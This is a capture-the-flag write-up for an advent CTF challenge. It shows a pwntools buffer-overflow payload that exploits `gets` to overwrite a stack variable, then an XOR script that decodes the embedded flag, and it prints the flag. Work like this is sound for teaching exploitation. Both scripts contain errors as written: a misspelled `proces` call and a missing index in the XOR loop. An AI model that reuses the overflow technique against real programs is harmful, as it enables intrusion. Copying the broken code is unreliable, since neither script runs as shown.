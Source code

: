 <img src="https://github.com/raul-dunca/assets/blob/main/.images_CyberStudents-advent-of-ctf2024/day2_description.png">

For this challenge I have 2 solutions.
## Solution 1:
Analyzing the file in dogbolt I saw in the main function a buffer overflow because of the `gets` function:

<img src="https://github.com/raul-dunca/CyberStudents-advent-of-ctf2024/blob/main/.assets/day_2_info1.png">
 
I think this is also the intended solution by the author. The goal of the challenge is to change the value of `local_12` from 0 to something else. This variable is also stored right after the buffer, which is used to get the user input. So, using a buffer overflow I can change the value stored in `local_12`.

Below is the solution script. Because the buffer which reads user input has a size of `8166` I need at least `8167` bytes in the payload:
```python
from pwn import *

binary='chall'
p=proces(binary)
payload=b"A"*8166 + b"\x01"
p.sendline(payload)

output=p.recvall()
print(output)
```
## Solution 2:
In dogbolt I can also see the win function and what it does exactly:

<img src="https://github.com/raul-dunca/CyberStudents-advent-of-ctf2024/blob/main/.assets/day_2_info2.png">

So, for each byte in that hex strings, it just xor it with `0xaa` to print out the flag. I can reverse the logic of this (`A xor 0xaa = B` and `B xor 0xaa = A`):
```python
encoded_flag=b"\xc9\xd9\xce\xd1\xce\x9e\xd3\xf5\x98\xf5\xe2\x9a\xdd\xf5\xd8\xf5\xdf\x95\xd7\x00"
decoded_flag=[]

for i in range (0,len(encoded_flag)):
    decoded_flag.append((encoded_flag^0xaa))

flag=''.join([chr(x) for x in decoded_flag])
print(flag)
```

`csd{d4y_2_H0w_r_u?}`
